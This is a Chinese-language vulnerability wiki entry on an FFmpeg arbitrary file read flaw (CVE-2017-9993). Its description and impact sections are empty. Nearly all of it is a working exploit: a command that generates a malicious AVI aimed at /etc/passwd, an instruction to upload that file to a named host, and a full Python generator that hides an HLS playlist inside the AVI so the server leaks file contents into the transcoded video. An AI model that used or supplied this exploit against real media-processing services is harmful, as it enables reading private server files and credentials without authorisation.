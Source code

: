 Ffmpeg 任意文件读取漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

使用exp生成payload

    ./gen_xbin_avi.py file:///etc/passwd exp.avi

生成exp.avi，在`http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-9993)Ffmpeg任意文件读取漏洞/media/rId24.png)

### poc

    #!/usr/bin/env python3
    import struct
    import argparse
    import random
    import string

    AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

    ECHO_TEMPLATE = """### echoing {needed!r}
    #EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
    #EXTINF:1,
    #EXT-X-BYTERANGE: 16
    /dev/zero
    #EXT-X-KEY: METHOD=NONE
    """

    # AES.new('\x00'*16).decrypt('\x00'*16)
    GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

    FULL_PLAYLIST = """#EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    {content}
    #### random string to prevent caching: {rand}
    #EXT-X-ENDLIST"""

    EXTERNAL_REFERENCE_PLAYLIST = """
    ####  External reference: reading {size} bytes from {filename} (offset {offset})
    #EXTINF:1,
    #EXT-X-BYTERANGE: {size}@{offset}
    {filename}
    """

    XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


    def echo_block(block):
        assert len(block) == 16
        iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
        return ECHO_TEMPLATE.format(needed=block, iv=iv)


    def gen_xbin_sync():
        seq = []
        for i in range(60):
            if i % 2:
                seq.append(0)
            else:
                seq.append(128 + 64 - i - 1)
        for i in range(4, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        for i in range(12, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        return seq


    def test_xbin_sync(seq):
        for start_ind in range(64):
            path = [start_ind]
            cur_ind = start_ind
            while cur_ind < len(seq):
                if seq[cur_ind] == 0:
                    cur_ind += 3
                else:
                    assert seq[cur_ind] & (64 + 128) == 128
                    cur_ind += (seq[cur_ind] & 63) + 3
                path.append(cur_ind)
            assert cur_ind == len(seq), "problem for path {}".format(path)


    def echo_seq(s):
        assert len(s) % 16 == 0
        res = []
        for i in range(0, len(s), 16):
            res.append(echo_block(s[i:i + 16]))
        return ''.join(res)


    test_xbin_sync(gen_xbin_sync())

    SYNC = echo_seq(gen_xbin_sync())


    def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
        content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
        packet = b'00tx' + struct.pack('<I', len(content)) + content
        dcpkt = b'00dc' + struct.pack('<I',
                                      fake_packet_len) + b'\x00' * fake_packet_len
        return AVI_HEADER + packet + dcpkt * fake_packets


    def gen_xbin_packet_header(size):
        return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


    def gen_xbin_packet_playlist(filename, offset, packet_size):
        result = []
        while packet_size > 0:
            packet_size -= 16
            assert packet_size > 0
            part_size = min(packet_size, 64)
            packet_size -= part_size
            result.append(echo_block(gen_xbin_packet_header(part_size)))
            result.append(
                EXTERNAL_REFERENCE_PLAYLIST.format(
                    size=part_size,
                    offset=offset,
                    filename=filename))
            offset += part_size
        return ''.join(result), offset


    def gen_xbin_playlist(filename_to_read):
        pls = [echo_block(XBIN_HEADER)]
        next_delta = 5
        for max_offs, filename in (
                (5000, filename_to_read), (500, "file:///dev/zero")):
            offset = 0
            while offset < max_offs:
                for _ in range(10):
                    pls_part, new_offset = gen_xbin_packet_playlist(
                        filename, offset, 0xf0 - next_delta)
                    pls.append(pls_part)
                    next_delta = 0
                offset = new_offset
            pls.append(SYNC)
        return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
            random.choice(string.ascii_lowercase) for i in range(30)))


    if __name__ == "__main__":
        parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
        parser.add_argument(
            'filename',
            help='filename to be read from the server (prefix it with "file://")')
        parser.add_argument('output_avi', help='where to save the avi')
        args = parser.parse_args()
        assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
        content = gen_xbin_playlist(args.filename)
        avi = make_playlist_avi(content)
        output_name = args.output_avi

        with open(output_name, 'wb') as f:
            f.write(avi)

参考链接
--------

> https://vulhub.org/\#/environments/ffmpeg/phdays/

